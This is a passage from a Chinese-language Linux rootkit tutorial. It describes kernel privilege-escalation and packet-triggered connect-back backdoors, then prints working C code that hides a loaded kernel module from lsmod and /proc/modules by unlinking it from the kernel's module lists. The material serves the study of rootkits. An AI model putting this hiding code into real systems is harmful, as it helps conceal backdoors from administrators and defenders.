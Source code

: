 8. 内核后门
* 本地的提权后门  
本地的提权可以通过对内核模块发送定制命令实现  
* 网络的监听后门  
网络内核后门可以在IP层对进入主机的数据包进行监听，发现匹配的指定数据包后立刻启动回连进程  

## 0x06 Example-Module Hiding

在linux中，编写的内核模块通过insmod（实际上是执行了init_module系统调用）命令插入到内核中，模块便与一个struct module 结构体相关联，并成为内核的一部分。所有的内核模块都被维护在一个全局链表中，链表头是个全局变量struct module *modules. 任何一个新创建的模块，都会被加入到这个链表的头部，通过modules->next引用。要枚举module的方法有许多种：  
a）.VFS方法: cat /proc/module: 直接读取/proc/module下的项;   
b). ring3方法: lsmod: 本质还是在读取/proc/module，做了一个代码封装，提供给用户一个良好的接口和界面;  
c). LKM方法: 直接通过kernel module枚举struct module->list;   
d). LKM方法: 直接通过kernel module枚举struct module->mkobj->kobj->entry;   
e).lKM方法: 直接通过kernel module枚举module->mkobj->kobj->kset.    

下面介绍采用断链法技术进行内核模块隐藏的代码：   

``` c
/*
MODULE HELPERS
使用"断链法"技术进行内核模块的隐藏
原理:
1. linux将所有的内核模块都在内核中用循环双链表串联起来了
2. 通过找到这些链表，并使用linux提供的链表操作宏将指定的"元素(对应内核模块)"从链表中断开
3. 我们再通过lsmod、或者直接读取内核模块链表的时候自然无法枚举到被我们隐藏的模块了，达到隐藏模块的目的
关于内核模块链表的相关知识请参阅
http://www.cnblogs.com/LittleHann/p/3865490.html
*/
void module_hide(void)
{
    if (module_hidden) 
    {
        return;
    }
    /*
    从struct module结构体可以看出，在内核态，我们如果要枚举当前模块列表，可以使用list、kobj这两个成员域进行枚举
    自然在断链隐藏的时候也需要对这两个成员进行操作
    */
    module_previous = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    
    module_kobj_previous = THIS_MODULE->mkobj.kobj.entry.prev;
    kobject_del(&THIS_MODULE->mkobj.kobj);
    
    list_del(&THIS_MODULE->mkobj.kobj.entry);
    module_hidden = !module_hidden;
}
```
有关LKM模块隐藏还可参考： [Linux Rootkit系列一：LKM的基础编写及隐藏](http://www.freebuf.com/articles/system/54263.html)  

## 0x07 Example-Process Hiding
